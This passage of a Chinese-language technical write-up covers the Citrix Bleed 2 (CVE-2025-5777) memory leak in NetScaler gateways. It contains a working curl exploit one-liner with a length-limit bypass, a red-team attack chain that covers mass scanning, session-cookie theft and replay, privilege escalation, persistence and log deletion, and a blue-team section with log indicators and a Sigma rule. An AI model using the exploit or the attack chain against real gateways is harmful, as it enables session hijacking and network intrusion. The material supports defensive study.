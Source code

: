 * 执行后如返回 200 + 数 KB，即判定存在漏洞。
* 进一步从 `leak.bin` 搜索 `Cookie=`、`<AuthenticateContext>` 等关键字。

### 4.2  Bash / curl 单行

```bash
curl -ks -H "Host: $(python -c 'print(\"A\"*6000)')" \
     https://NSVIP/nf/auth/startwebview.do -o leak.bin
```

> **旁路**：部分设备在前置 F5 / Nginx 做了 `Host` 长度限制；可改为多段子域拼接绕过，如
> `foo.foo.foo.…foo.example.com`（重复 3000 次 `foo`）。

---

## 0x05  红队视角：完整攻击链

| 步骤          | 目的 & 技巧                                                                              |
| ----------- | ------------------------------------------------------------------------------------ |
| ① 资产发现      | `zoomeye search "http.title:\"NetScaler Gateway\""` + Shodan 等；过滤 `set-cookie: NSC_` |
| ② POC 泄露    | 批量脚本并行请求；抓取 `NSC_USER= ; NSC_TASS=`                                                  |
| ③ Cookie 重播 | Chrome DevTools→Application→Cookies→添加条目，刷新 `/vpn/index.html`                        |
| ④ 内网资源      | 访问 `storeweb/#home` 获取 RDP 文件；下载 `.ica` 直接登陆 VDI                                     |
| ⑤ 权限提升      | 内部凭据喷射、Kerberoast、ADCS ESC1；或利用同网段弱口令 SMB                                            |
| ⑥ 持久化       | 新建 Scheduled Task；注册自启动脚本；或修改 NetScaler vDisk（高权限需运维疏忽）                              |
| ⑦ 痕迹清理      | Cookie 用后即焚；删除 audit 日志（若拿到 NS root）；或利用 logrotate race 覆盖                           |

真实案例：ReliaQuest 在客户网关观察到“短时大量 6 KB+ `Host` 头请求 → 紧跟着会话被盗用”([reliaquest.com][4])。

---

## 0x06  蓝队视角：检测、取证与补丁验证

### 6.1  日志与 IoC

| 来源                   | 表现                                                       |
| -------------------- | -------------------------------------------------------- |
| **/var/log/ns.log**  | `AAA_TRANSACTION <client_ip> - Host header length: 6144` |
| **HTTP\_ACCESS.log** | `/nf/auth/startwebview.do` 请求耗时极短但响应大小异常（> 2 KB）         |
| **EDR/PCAP**         | `Set-Cookie: NSC_USER=` 出现在非登录请求的响应中                     |

### 6.2  Sigma 规则（简要版）

```yaml
title: CitrixBleed2 Host Header OOB Leak
status: experimental
logsource:
  category: webserver
  product: netscaler
detection:
  selection:
    cs-uri-stem: "/nf/auth/startwebview.do"
    cs-bytes|gt: 2048
    c-host|strlen|gt: 4096
  condition: selection
level: critical
```


[1]: https://arcticwolf.com/resources/blog/cve-2025-5777/?utm_source=chatgpt.com "CVE-2025-5777 | Arctic Wolf"
[2]: https://www.tenable.com/blog/cve-2025-5777-cve-2025-6543-frequently-asked-questions-about-citrixbleed-2?utm_source=chatgpt.com "CVE-2025-5777, CVE-2025-6543: Frequently Asked Questions ..."
[3]: https://www.netscaler.com/blog/news/critical-security-updates-for-netscaler-netscaler-gateway-and-netscaler-console/?utm_source=chatgpt.com "Critical security updates for NetScaler, NetScaler Gateway, and ..."
[4]: https://reliaquest.com/blog/threat-spotlight-citrix-bleed-2-vulnerability-in-netscaler-adc-gateway-devices/?utm_source=chatgpt.com "Threat Spotlight: CVE-2025-5777: Citrix Bleed 2 Opens Old Wounds"
[5]: https://bishopfox.com/blog/netscaler-adc-and-gateway-advisory?utm_source=chatgpt.com "OOB Memory Read: Netscaler ADC and Gateway - Bishop Fox"
[6]: https://support.citrix.com/support-home/kbsearch/article?articleNumber=CTX693420&utm_source=chatgpt.com "CVE-2025-5777 - CITRIX | Support"
[7]: https://www.bleepingcomputer.com/news/security/citrix-bleed-2-flaw-now-believed-to-be-exploited-in-attacks/?utm_source=chatgpt.com "Citrix Bleed 2 flaw now believed to be exploited in attacks"
[8]: https://nvd.nist.gov/vuln/detail/CVE-2025-5777?utm_source=chatgpt.com "CVE-2025-5777 Detail - NVD"